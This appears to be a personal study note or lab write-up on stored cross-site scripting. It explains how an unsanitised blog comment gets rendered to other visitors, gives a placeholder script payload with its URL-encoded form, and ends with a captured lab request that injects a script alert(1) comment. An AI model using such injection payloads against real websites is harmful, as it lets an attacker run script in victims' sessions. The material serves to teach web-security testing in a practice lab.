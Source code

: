 #### What is stored cross-site scripting?   
Stored XSS or persistent XSS araises when an application recieves data from an untrusted source and includes that data within its later HTTP responses in an unsafe way. 

Suppose a website allows users to submit comments on blog posts, which are displayed to other users. Users submit comments using an HTTP  request like the following:  

>POST /post/comment HTTP/1.1  
>Host: vulnerable-website.com  
>Content-Length: 100  
>postId=3&comment=This+post+was+extremely+helpful.&name=Carlos+Montoya&email=carlos%40normal-user.net  

After this comment has been submitted, any user who visits the blog post will receive the following within the application's response:
><p>This post was extremely helpful.</p>  
Assuming the application doesn't perform any other processing of the data, an attacker can submit a malicious comment like this:
><script>/* Bad stuff here... */</script>  

Within the attacker's request, this comment would be URL-encoded as:  
>comment=%3Cscript%3E%2F*%2BBad%2Bstuff%2Bhere...%2B*%2F%3C%2Fscript%3E  

Any user who visits the blog post will now receive the following within the application's response:
<p><script>/* Bad stuff here... */</script></p>  

The script supplied by the attacker will then execute in the victim user's browser, in the context of their session with the application. 

***

###### Lab: Stored XSS into HTML context with nothing encoded  
>POST /post/comment HTTP/1.1  
>Host: ac3a1ff01e93fd038023e57d00360025.web-security-academy.net  
>User-Agent: Mozilla/5.0 (X11; Linux i686; rv:52.0) Gecko/20100101 Firefox/52.0  
>Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8  
>Accept-Language: en-US,en;q=0.5  
>Accept-Encoding: gzip, deflate  
>Referer: https://ac3a1ff01e93fd038023e57d00360025.web-security-academy.net/post?postId=2  
>Cookie: session=uE2UxMTA7XRIh1tvGZfMWOgWpunGIQUZ  
>Connection: close  
>Upgrade-Insecure-Requests: 1  
>Content-Type: application/x-www-form-urlencoded  
>Content-Length: 144  

>csrf=DrnM0FYX8iuxJY8DWROKokJK6svLtua9&postId=2&comment=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&name=wardaddy&email=wardaddy%40localhost&website=

